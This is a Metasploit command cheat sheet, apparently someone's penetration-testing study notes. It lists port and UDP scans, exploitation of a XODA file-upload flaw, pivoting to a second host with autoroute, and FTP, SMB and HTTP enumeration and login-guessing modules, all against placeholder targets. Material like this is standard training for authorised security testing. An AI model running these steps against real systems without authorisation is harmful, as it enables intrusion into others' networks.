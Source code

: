 ```bash

# Nmap inside MSF
db_nmap -Pn -sV -O <TARGET_IP>
```

```bash
# Port Scan example
workspace -a Port_scan
search portscan
use auxiliary/scanner/portscan/tcp
show options
set RHOSTS <TARGET_IP>
set PORTS 1-1000
run

# Exploitation
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS <TARGET_IP>
set TARGETURI /
run

# Pivoting to TARGET2 through TARGET1
run autoroute -s <TARGET1_SUBNET_NETWORK>
background
use auxiliary/scanner/portscan/tcp
set RHOSTS <TARGET2_IP>
run
```

```bash
# UDP Scan
search udp_sweep
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS <TARGET_IP>
run
```

```bash
# Service Enumeration

# FTP
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/anonymous

# SMB
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login

# HTTP
use auxiliary/scanner/http/apache_userdir_enum
use auxiliary/scanner/http/brute_dirs
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/dir_listing
use auxiliary/scanner/http/http_put
use auxiliary/scanner/http/files_dir
use auxiliary/scanner/http/http_login
use auxiliary/scanner/http/http_header
use auxiliary/scanner/http/http_version
use auxiliary/scanner/http/robots_txt

# MYSQL
```